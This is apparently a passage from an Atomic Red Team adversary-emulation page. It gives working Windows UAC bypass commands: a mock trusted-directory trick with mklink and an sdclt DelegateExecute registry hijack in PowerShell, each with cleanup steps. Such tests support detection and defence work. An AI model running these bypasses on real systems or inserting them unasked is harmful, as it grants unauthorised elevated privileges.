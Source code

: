 #### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
mkdir "\\?\C:\Windows \System32\"
copy "#{executable_binary}" "\\?\C:\Windows \System32\mmc.exe"
mklink c:\testbypass.exe "\\?\C:\Windows \System32\mmc.exe"
```

#### Cleanup Commands:
```cmd
rd "\\?\C:\Windows \" /S /Q >nul 2>nul
del "c:\testbypass.exe" >nul 2>nul
```





<br/>
<br/>

## Atomic Test #7 - Bypass UAC using sdclt DelegateExecute

auto_generated_guid: 3be891eb-4608-4173-87e8-78b494c029b7

Bypasses User Account Control using a fileless method, registry only.
Upon successful execution, sdclt.exe will spawn cmd.exe to spawn notepad.exe
[Reference - sevagas.com](http://blog.sevagas.com/?Yet-another-sdclt-UAC-bypass)
Adapted from [MITRE ATT&CK Evals](https://github.com/mitre-attack/attack-arsenal/blob/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/stepFourteen_bypassUAC.ps1)
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command.to.execute | Command to execute | string | cmd.exe /c notepad.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Value '#{command.to.execute}'
New-ItemProperty -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute"
Start-Process -FilePath $env:windir\system32\sdclt.exe
Start-Sleep -s 3
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "HKCU:\Software\Classes\Folder" -Recurse -Force -ErrorAction Ignore
```
